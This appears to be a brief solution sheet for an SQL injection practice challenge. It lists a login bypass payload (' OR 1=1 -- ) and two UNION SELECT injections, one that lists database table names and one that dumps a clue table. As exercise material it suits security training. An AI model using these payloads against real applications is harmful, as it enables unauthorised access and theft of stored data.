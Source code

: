 # Solution to the SQL injection challenge

## Login
**Username:** <code>admin</code>  
**Password:** <code>' OR 1=1 -- </code> (include the space at the end)

## Search Box – Get table names
**Search Input:** <code>' UNION ALL SELECT table_name, 1, 1 FROM information_schema.tables WHERE table_schema=database() -- </code> (include the space at the end)

## Search Box – Get challenge clue
**Search Input:** <code>' UNION ALL SELECT *, 1 FROM challenge_clue -- </code> (include the space at the end)